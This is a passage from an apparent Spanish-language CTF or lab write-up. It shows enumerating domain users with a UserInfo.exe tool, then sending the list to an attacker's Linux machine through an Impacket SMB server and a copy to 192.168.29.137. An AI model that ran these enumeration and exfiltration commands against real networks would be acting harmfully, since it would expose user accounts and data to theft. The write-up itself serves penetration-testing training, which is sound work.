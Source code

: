 ~~~ bash
C:\Users\Andrew\Documents\UserInfo.exe>.\UserInfo.exe find -first * -last *
raven.clifton
anderson.damian
monroe.david
cromwell.gerard
west.laura
levine.leopoldo
langley.lucy
daughtler.mabel
bardot.mary
stoll.rachelle
thomas.raphael
smith.rosario
wilson.shelby
hernandez.stanley
ford.victoria
~~~

Guardaremos este listado de usuarios en un archivo `users.txt` y lo enviaremos a nuestra máquina Linux

~~~ bash
C:\Users\Andrew\Documents\UserInfo.exe>.\UserInfo.exe find -first * -last * > users.txt
~~~

Usaremos el método por SMB de forma similar a cuando compartimos el archivo de VPN

~~~ bash
smbserver.py smbFolder $(pwd) -smb2support -username andrew -password asdsa     
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
~~~

Desde Windows copiamos el archivo `users.txt` a nuestro recurso SMB. Como ya habíamos iniciado una sesión con SMB, no necesitamos volver a ejecutar el comando `net use`, sin embargo, si por algún motivo se cerrara esta sesión, debemos volver a iniciarla

~~~ bash
C:\Users\Andrew\Documents\UserInfo.exe>copy users.txt \\192.168.29.137\smbFolder\users.txt
        1 archivo(s) copiado(s).
~~~

Podemos comprobar el estado de la sesión con el siguiente comando desde una `powershell` (requiere privilegios de Administrador)

~~~ bash
PS C:\Windows\system32> Get-SmbConnection

ServerName     ShareName UserName               Credential            Dialect NumOpens
----------     --------- --------               ----------            ------- --------
192.168.29.137 smbFolder DESKTOP-ED5EBHA\Andrew 192.168.29.137\andrew 2.0.2   1
~~~
<br>
